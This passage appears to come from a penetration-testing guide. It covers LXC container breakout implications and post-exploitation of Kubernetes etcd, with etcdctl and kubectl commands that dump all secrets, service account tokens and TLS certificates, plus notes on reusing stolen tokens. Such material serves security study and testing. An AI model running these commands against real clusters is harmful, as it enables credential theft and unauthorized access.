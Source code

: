 ### LXC Container Exploitation
Similar techniques apply to LXC containers with appropriate permissions.

#### Security Implications
- **Full Host Access**: Complete access to host filesystem
- **Root Privilege**: Effective root access on host system
- **Persistence**: Ability to modify host system permanently
- **Detection Evasion**: Activities may not be logged properly

## Post-Enumeration on Kubernetes etcd

### etcd Database Overview
etcd is the distributed key-value store used by Kubernetes to store all cluster data.

#### etcd Access Methods
```bash
# Direct etcd access (if accessible)
etcdctl --endpoints=https://ETCD_IP:2379 \
--cert=/path/to/cert.pem \
--key=/path/to/key.pem \
--cacert=/path/to/ca.pem \
get / --prefix --keys-only

# Through kubectl (indirect access)
kubectl get secrets --all-namespaces -o yaml
```

### Sensitive Data in etcd
etcd contains highly sensitive information that can be valuable for attackers.

#### Data Types
- **Secrets**: API keys, passwords, certificates
- **Service Account Tokens**: Authentication credentials
- **ConfigMaps**: Configuration data that may contain sensitive information
- **Pod Specifications**: Complete container and security configurations

### etcd Exploitation Techniques
```bash
# Extract all secrets
etcdctl get /registry/secrets --prefix=true

# Dump service account tokens
etcdctl get /registry/serviceaccounts --prefix=true

# Extract TLS certificates
etcdctl get /registry/secrets/kube-system/certificate --print-value-only
```

### Data Exfiltration and Analysis
- **Credential Extraction**: Parse secrets for reusable credentials
- **Certificate Analysis**: Extract and analyze TLS certificates
- **Configuration Review**: Identify misconfigurations in stored manifests
- **Token Abuse**: Use extracted service account tokens for cluster access
